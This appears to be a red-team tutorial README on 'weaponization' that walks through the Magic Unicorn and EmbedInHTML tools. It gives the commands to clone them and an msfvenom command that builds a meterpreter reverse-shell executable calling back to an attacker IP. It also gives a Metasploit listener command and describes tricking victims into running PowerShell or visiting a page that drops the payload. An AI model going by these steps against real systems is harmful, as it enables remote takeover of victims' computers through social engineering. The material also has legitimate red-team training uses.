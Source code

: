 # Red Teaming Squad : Weaponization

Weaponization consists of techniques that result in adversary-controlled code running on a local or remote system. Techniques that run malicious code are often paired with techniques from all other tactics to achieve broader goals, like exploring a network or stealing data. For example, an adversary might use a remote access tool to run a PowerShell script that does Remote System Discovery. Most of these techniques do not require a Tool but just access and Native Tools from the Windows Machine itself one of the reasons we want to use.


## Unicorn

Magic Unicorn is a simple tool for using a PowerShell downgrade attack and inject shellcode straight into memory.


### Installation

You can install "Unicorn" using following command:

```
git clone https://github.com/trustedsec/unicorn
```

<kbd>![](Weaponization/1.png)</kbd>

### Usage

Usage is simple, just run Magic Unicorn (ensure Metasploit is installed if using Metasploit methods and in the right path) and magic unicorn will automatically generate a powershell command that you need to simply cut and paste the powershell code into a command line window or through a payload delivery system. Unicorn supports your own shellcode, cobalt strike, and Metasploit.

Here we are using windows/meterpreter/reverse_tcp payload to get the reverse shell because our target system has Windows Operating System.

<kbd>![](Weaponization/2.png)</kbd>

Now this will give us two files. One is a text file named “powershell_attack.txt” which has the PowerShell code that will be run in the victim’s machine using social engineering and the other is “unicorn.rc” which is a custom Metasploit file that will automatically set all the parameters and start a listener.

<kbd>![](Weaponization/3.png)</kbd>

We need to run the Metasploit “unicorn.rc” file using ```msfconsole -r unicorn.rc``` command which will setup our listener.

<kbd>![](Weaponization/4.png)</kbd>

Now execute the powershell command through powershell using any social engineering technoque.

<kbd>![](Weaponization/5.png)</kbd>

Once the PowerShell code will be executed in the victim’s powershell command promt, you will see a meterpreter session of your victim. 

<kbd>![](Weaponization/6.png)</kbd>

For more use cases, you can use ```python unicorn.py --help``` command or you can visit this [URL](https://github.com/trustedsec/unicorn).


## EmbedInHTML

EmbedInHTML tool will take a file (any type of file) as input, encrypt it, and embed it into an HTML file as resource, along with an automatic download routine simulating a user clicking on the embedded resource. When the user browses the HTML file, the embedded file is decrypted on the fly, saved in a temporary folder, and the file is then presented to the user as if it was being downloaded from the remote site.


### Installation

You can install "Unicorn" using following command:

```
git clone https://github.com/Arno0x/EmbedInHTML
```

<kbd>![](Weaponization/7.png)</kbd>

### Usage

Here I am creating a shell.exe file using ```msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Attacker's_IP> LPORT=<Listening_Port> -f exe > shell.exe``` to embed in an HTML page.

<kbd>![](Weaponization/8.png)</kbd>

Use ```python embedInHTML.py -k <Your_Secret_Key> -f <Payload_Filename> -o index.html``` command which will generate the index.html file in output directory. Now you can move the file to your /var/www/html/ directory and send the URL to victim.

<kbd>![](Weaponization/9.png)</kbd>

Whenever victim will visit the URL, your payload will be downloaded into victim's computer.

<kbd>![](Weaponization/10.png)</kbd>

For more use cases, you can use ```python embedInHTML.py -h``` command or you can visit this [URL](https://github.com/Arno0x/EmbedInHTML).
